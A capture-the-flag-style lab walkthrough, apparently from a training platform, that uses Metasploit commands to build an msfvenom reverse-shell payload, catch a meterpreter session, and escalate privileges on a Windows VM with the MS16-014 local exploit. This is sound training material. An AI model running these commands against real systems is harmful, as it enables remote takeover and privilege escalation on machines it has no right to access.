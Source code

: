 **Establish a shell**  

Kali VM

1. Open command prompt and type:
    
```
msfconsole
```
  
2. In Metasploit (msf > prompt) type: 
```
use multi/handler
```  
3. In Metasploit (msf > prompt) type: 
```
set payload windows/meterpreter/reverse_tcp
```  
4. In Metasploit (msf > prompt) type: 
```
set lhost [Kali VM IP Address]
```  
5. In Metasploit (msf > prompt) type: 
```
run
```  
6. Open an additional command prompt and type: 
```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe > shell.exe
```  
7. Copy the generated file, shell.exe, to the Windows VM.  

Windows VM

1. Execute shell.exe and obtain reverse shell

**Detection & Exploitation**  

Kali VM

1. In Metasploit (msf > prompt) type: 
```
run post/multi/recon/local_exploit_suggester
```  
2. Identify **exploit/windows/local/ms16_014_wmi_recv_notif** as a potential privilege escalation  
3. In Metasploit (msf > prompt) type: 
```
use exploit/windows/local/ms16_014_wmi_recv_notif
```  
4. In Metasploit (msf > prompt) type: 
```
set SESSION [meterpreter SESSION number]
```  
5. In Metasploit (msf > prompt) type: 
```
set LPORT 5555
```  
6. In Metasploit (msf > prompt) type: 
```
run
```

##### NOTE: The shell might default to your eth0 during this attack.  If so, ensure you type ``set lhost [Kali VM IP Address]`` and run again.  

Answer the questions below

Click 'Completed' once you have successfully elevated the machine